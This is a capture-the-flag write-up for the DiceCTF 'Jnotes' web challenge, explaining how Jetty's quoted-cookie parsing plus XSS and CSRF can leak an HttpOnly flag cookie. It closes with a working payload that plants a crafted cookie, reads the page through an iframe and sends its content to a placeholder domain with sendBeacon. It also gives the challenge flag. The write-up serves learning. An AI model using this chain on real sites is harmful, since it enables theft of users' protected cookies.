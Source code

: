 # Jnotes

## Description

I made this note site before I learned about XSS... can you break it?

Thankfully my cookies are HttpOnly

- **Author** : arxenix
- **Category** : Web
- **Points** : 396
- **Solves** : 6


## Solution 

### Understanding the challenge

This was a java challenge where we can create notes and that notes will stored in cookies. We have setnote and getnote functions which will set the note in cookie and take the note from cookie

```java
    public static String getNote(Context ctx) {
        var note = ctx.cookie("note");
        if (note == null) {
            setNote(ctx, DEFAULT_NOTE);
            return DEFAULT_NOTE;
        }
        return URLDecoder.decode(note, StandardCharsets.UTF_8);
    }

    public static void setNote(Context ctx, String note) {
        note = URLEncoder.encode(note, StandardCharsets.UTF_8);
        ctx.cookie(new Cookie("note", note, "/", -1, false, 0, true));
    }
```

We also have a `/create` endpoint where we can set a new note

```java
app.post("/create", ctx -> {
            var note = ctx.formParam("note");
            setNote(ctx, note);
            ctx.redirect("/");
        });
```

The note is displayed on the home page without any filters so it's just plain XSS. The admin will also visit any page so we can get csrf and set a new note and get XSS on the admin side too. Till now everything is alright. The catch is that both the cookies are [HttpOnly](https://owasp.org/www-community/HttpOnly)

- So we can't access the cookies using JS
- There is no page displaying the flag cookie
- There is just home page which displays note cookie

### Java Cookie Parsing

Java Parse cookies weirdly. Maybe many other web servers too. Here this challenge uses [javalin](https://javalin.io/) which uses [jetty](https://www.eclipse.org/jetty/)

So when a cookie starts with a double quotes `"` and doesn't close it, it will go on and will take the value of that cookie until there is a closing double quotes.

So if we have three cookies

```
note="a
FLAG=flag{}
a=b"
```
Java will take the value of cookie `note` as `a; FLAG=flag{}; a=b`. Now we can use this to get the flag value into the note cookie and displaying it on the page. But we need to get the cookies in this order.

### Browser Cookie Parsing

Now some interesting facts about cookies in browsers that we use to solve this challenge

- We can create empty cookies using `document.cookies="=value"`

![empty](/dicectf23-writeups/jnotes/images/empty.png)

Now the cookie header will be sent like:

![header](/dicectf23-writeups/jnotes/images/empty-cookie-header.png)

Now, even if we can't create a new `note` cookie as its [HttpOnly](https://owasp.org/www-community/HttpOnly), we can create an empty cookie with value `note="` to bypass this

![cookie](/dicectf23-writeups/jnotes/images/note-cookie.png)

![note](/dicectf23-writeups/jnotes/images/cookie-note.png)

Now the header will be sent like this

![note-cookie-header](/dicectf23-writeups/jnotes/images/note-cookie-header.png)

Here the our `note` cookie is sent last. We need it to be the first cookie. So chrome basically orders cookies based on these rules

- Cookies with longer path are listed before cookies with shorter path.
- Cookies which are edited least recently are listed before cookies which are edited most recently.

Here the `FLAG` cookie will be the first cookie as it is the least editted cookie and it has the longest path `/`. Now to make our cookie first, we can change the path of our `note` cookie to be `//` and increase the path length.

```js
document.cookie='=note=";path=//';
```

![cookie-path](/dicectf23-writeups/jnotes/images/cookie-path.png)

Now the textarea will have the flag value

[textarea](/dicectf23-writeups/jnotes/images/textarea.png)

Now we can just open an `iframe` with url `https://jnotes.mc.ax//` and get its content. 

```js
document.cookie='=note=";path=//';
const frame = document.createElement('iframe');
frame.src = "https://jnotes.mc.ax//";
document.body.appendChild(frame);
frame.onload = () => {
    navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
}
```
We need to set this as admins `not` cookie. We can do that with [csrf](https://portswigger.net/web-security/csrf)

### Final Payload

```html
<html>
  <body>
    <form method="POST" action="https://jnotes.mc.ax/create">
      <input id="p" name="note" value="" >
    </form>
    <script>
      document.querySelector("#p").value = `</textarea>
      <\x73cript>
      document.cookie='=note=";path=//';
      const frame = document.createElement('iframe');
      frame.src = "https://jnotes.mc.ax//";
      document.body.appendChild(frame);
      frame.onload = () => {
        navigator.sendBeacon("https://your.domain.com",frame.contentWindow.document.body.innerHTML);
        }
      </\x73cript>`;
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Flag**: `dice{c0ok1e_m0nSt3r_1s_jeal0us_of_y0ur_sk1lLs}`